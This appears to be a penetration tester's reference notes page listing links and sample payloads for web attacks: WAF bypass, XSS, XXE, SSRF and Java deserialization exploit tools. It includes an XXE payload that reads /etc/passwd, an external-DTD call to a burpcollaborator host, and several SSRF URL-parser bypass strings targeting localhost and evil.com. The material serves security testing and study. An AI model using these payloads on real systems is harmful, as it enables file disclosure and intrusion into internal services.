 https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html
<br># Unicode normalization good for WAF bypass.
  
<br># XSS
<br>https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
<br># This cross-site scripting (XSS) cheat sheet contains many vectors that can help you bypass WAFs and filters. You can select vectors by the event, tag or browser and a proof of concept is included for every vector.
<br>https://www.gremwell.com/firefox-xss-302
<br># Forcing Firefox to Execute XSS Payloads during 302 Redirects.

<br># XXE
<br>https://portswigger.net/web-security/xxe
<br># XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
<br>```<?xml version="1.0" encoding="UTF-8"?>```
<br>```<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>```
<br>```<stockCheck><productId>&xxe;</productId></stockCheck>```

https://phonexicum.github.io/infosec/xxe.html
<br># Information Security PENTEST XXE
<br>```<!DOCTYPE foo SYSTEM "http://xpto.burpcollaborator.net/xpto.dtd">```

https://github.com/GoSecure/dtd-finder
<br># Identify DTDs on filesystem snapshot and build XXE payloads using those local DTDs.

<br># SSRF
<br>https://www.blackhat.com/us-17/briefings.html#a-new-era-of-ssrf-exploiting-url-parser-in-trending-programming-languages
<br># We propose a new exploit technique that brings a whole-new attack surface to bypass SSRF (Server Side Request Forgery) protections.
<br>```http://1.1.1.1&@2.2.2.2#@3.3.3.3/```
<br>```http://127.0.0.1:11211:80/```
<br>```http://google.com#@evil.com/```
<br>```http://foo@evil.com:80@google.com/```
<br>```http://foo@evil.com:80 @google.com/```
<br>```http://127.0.0.1\tfoo.google.com/```
<br>```http://127.0.0.1%09foo.google.com/```
<br>```http://127.0.0.1%2509foo.google.com/```
<br>```http://127.0.0.1:11211#@google.com:80/```
<br>```http://foo@127.0.0.1:11211@google.com:80/```
<br>```http://foo@127.0.0.1 @google.com:11211/```

### Deserialization
https://github.com/joaomatosf/jexboss
<br># JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server and others Java Platforms, Frameworks, Applications, etc.

https://github.com/pimps/JNDI-Exploit-Kit
<br># This is a forked modified version of the great exploitation tool created by @welk1n (https://github.com/welk1n/JNDI-Injection-Exploit). 
